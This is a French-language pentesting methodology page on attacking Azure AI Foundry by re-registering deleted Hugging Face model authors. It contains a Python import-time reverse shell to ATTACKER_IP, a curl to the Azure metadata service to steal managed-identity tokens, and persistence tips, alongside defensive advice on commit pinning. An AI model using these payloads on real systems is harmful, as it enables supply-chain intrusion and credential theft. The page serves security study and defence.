 # Azure - AI Foundry Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Scénario

- Azure AI Foundry Model Catalog inclut de nombreux modèles Hugging Face (HF) pour un déploiement en un clic.
- Les identifiants de modèle HF sont Author/ModelName. Si un author/org HF est supprimé, n'importe qui peut se réenregistrer sous ce nom d'auteur et publier un modèle avec le même ModelName au legacy path.
- Les pipelines et catalogs qui récupèrent uniquement par nom (sans commit pinning/integrity) résoudront vers des repos contrôlés par l'attaquant. Quand Azure déploie le modèle, le code du loader peut s'exécuter dans l'environnement de l'endpoint, offrant une RCE avec les permissions de cet endpoint.

Cas courants de takeover HF :
- Ownership deletion : ancien chemin 404 jusqu'au takeover.
- Ownership transfer : ancien chemin 307 vers le nouvel author tant que l'ancien author existe. Si l'ancien author est ensuite supprimé et réenregistré, le redirect casse et le repo de l'attaquant sert au legacy path.

## Identifier des namespaces réutilisables (HF)
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## Flux d'attaque de bout en bout contre Azure AI Foundry

1) Dans le Model Catalog, trouvez des HF models dont les auteurs originaux ont été supprimés ou transférés (ancien auteur retiré) sur HF.  
2) Réenregistrez l'auteur abandonné sur HF et recréez le ModelName.  
3) Publiez un repo malveillant contenant du loader code qui s'exécute à l'import ou nécessite trust_remote_code=True.  
4) Déployez le legacy Author/ModelName depuis Azure AI Foundry. La plateforme récupère le repo de l'attaquant ; le loader s'exécute à l'intérieur du container/VM de l'endpoint Azure, entraînant une RCE avec les permissions de l'endpoint.

Exemple de fragment de payload exécuté à l'import (pour démonstration seulement) :
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Remarques
- Les déploiements AI Foundry qui intègrent HF clonent et importent typiquement des modules de repo référencés par la config du modèle (par ex., auto_map), ce qui peut déclencher l'exécution de code. Certains chemins exigent trust_remote_code=True.
- L'accès correspond généralement aux permissions de managed identity/service principal de l'endpoint. Considérez-le comme un point d'appui d'accès initial pour l'accès aux données et les mouvements latéraux au sein d'Azure.

## Conseils post-exploitation (Azure Endpoint)

- Énumérez les variables d'environnement et les MSI endpoints pour récupérer des tokens:
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- Vérifier le stockage monté, les artefacts de modèle et les services Azure accessibles avec le token acquis.
- Envisager la persistence en laissant des poisoned model artifacts si la plateforme re-pulls depuis HF.

## Conseils défensifs pour les utilisateurs d'Azure AI Foundry

- Épingler les modèles à un commit lors du chargement depuis HF:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Répliquer les modèles HF vérifiés dans un registre interne de confiance et déployer à partir de celui-ci.
- Scanner en continu les codebases et les defaults/docstrings/notebooks à la recherche d'Author/ModelName codés en dur qui ont été supprimés/transférés ; les mettre à jour ou les pin.
- Valider l'existence de l'auteur et la provenance du modèle avant le déploiement.

## Heuristiques de reconnaissance (HTTP)

- Auteur supprimé : author page 404 ; legacy model path 404 jusqu'au takeover.
- Modèle transféré : legacy path 307 vers un nouvel auteur tant que l'ancien auteur existe ; si l'ancien auteur est ensuite supprimé et réenregistré, legacy path sert du contenu d'attaquant.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Références croisées

- Voir la méthodologie plus large et les notes sur la chaîne d'approvisionnement :

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Références

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
